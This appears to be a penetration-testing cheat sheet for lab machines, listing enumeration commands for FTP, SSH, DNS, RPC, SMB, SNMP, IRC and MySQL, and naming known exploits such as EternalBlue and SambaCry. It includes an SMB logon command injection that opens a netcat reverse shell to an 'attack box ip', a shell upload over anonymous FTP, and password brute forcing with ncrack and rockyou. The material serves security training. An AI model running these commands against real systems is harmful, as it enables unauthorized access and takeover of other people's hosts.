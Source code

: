 
### Quick Hits

```
enum4linux -a 10.10.10.10
autorecon
```

### Port Scanning 

```
Host Discovery
	nmap -sn 10.10.0.1-254 -vv -oA hosts
	netdiscover -r 10.10.10.0/24
	nmap -sP 10.10.10.0/16

DNS server discovery
	nmap -p 53 10.10.10.1-254 -vv -oA DCs

Scans 
	nmap -F 10.10.10.10
	nmap -p- -A 10.10.10.10 -oA aggressive
	nmap -sV -p <ports> --script "vuln" 10.10.10.10

Scripts
	nmap -sV --script=vulscan/vulscan.nse (https://securitytrails.com/blog/nmap-vulnerability-scan)
	ls /usr/share/nmap/scripts/ssh*
	ls /usr/share/nmap/scripts/smb*

```

### FTP 

- anonymous login check
- ftp 10.10.10.10
- creds anonymous:anonymous
- put SHELL.php

### SSH

- id_rsa.pub = public authorized key 
- id_rsa =  private key (can crack with `ssh2john` )
- ssh -i id_rsa user@10.10.10.10 

### DNS

- check if port 53 is open -> if so add to /etc/hosts
- dig axfr smasher.htb @10.10.10.135
	- Add the extracted domain to /etc/hosts and dig again

### RPC Bind - 111

```
rpcclient --user="" --command=enumprivs -N 10.10.10.10
rpcinfo –p 10.10.10.10
rpcbind -p 10.10.10.10
```

### RPC - 135

```
rpcdump.py 10.10.10.10  -p 135                           //Impacket 
rpcdump.py 10.10.10.10 -p 135 | grep ncacn_np            //Get pipe names
rpcmap.py ncacn_ip_tcp:10.10.10.10 [135]
```

### SMB 

```
nmap --script smb-protocols 10.10.10.10

smbclient -L //10.10.10.10
smbclient -L //10.10.10.10 -N                   //No password (SMB Null session)
smbclient --no-pass -L 10.10.10.10
smbclient //10.10.10.10/share_name

smbmap -H 10.10.10.10
smbmap -H 10.10.10.10 -u '' -p ''
smbmap -H 10.10.10.10 -s share_name

crackmapexec smb 10.10.10.10 -u '' -p '' --shares
crackmapexec smb 10.10.10.10 -u 'sa' -p '' --shares
crackmapexec smb 10.10.10.10 -u 'sa' -p 'sa' --shares
crackmapexec smb 10.10.10.10 -u '' -p '' --share share_name
crackmapexec smb 192.168.0.115 -u '' -p '' --shares --pass-pol

rpcclient -U "" 10.10.10.10 
	- * enumdomusers
	- enumdomgroups
	- queryuser [rid]
	- getdompwinfo
	- * getusrdompwinfo [rid]

ncrack -u username -P rockyou.txt -T 5 10.10.10.10 -p smb -v

mount -t cifs "//10.10.10.10/share/" /mnt/dubs
mount -t cifs "//10.10.10.10/share/" /mnt/dubs -o vers=1.0,user=root,uid=0,gid=0
```

SMB Shell to Reverse Shell :

```
smbclient -U "username%password" //10.10.10.10/sharename
smb> logon “/=nc ‘attack box ip’ 4444 -e /bin/bash"

smbclient -p 4455 -L //192.168.50.63/ -U hr_admin --password=Welcome1234

```

SMB Exploits:

- Samba usermap script (version **3.0.20** through **3.0.25rc3**)
	- use Samba-usermap-exploit.py
- Eternal Blue (requires SMBv1)
	- use MS17-010-Manual-Exploit
- SambaCry (version 4.5.9 and before )
	- use exploit-CVE-2017-7494

### SNMP - 161

```
snmpwalk -c public -v1 10.0.0.0
snmpcheck -t 192.168.1.X -c public
onesixtyone -c names -i hosts
nmap -sT -p 161 192.168.X.X -oG snmp_results.txt
snmpenum -t 192.168.1.X
```

### IRC - 194, 6667, 6660-7000

```
nmap -sV --script irc-botnet-channels,irc-info,irc-unrealircd-backdoor -p 194,6660-7000 10.10.10.10
```

- Use UnrealIRCd-3.2.8.1-Backdoor 

### MySQL - 3306

```
nmap -sV -Pn -vv 10.0.0.1 -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122
```
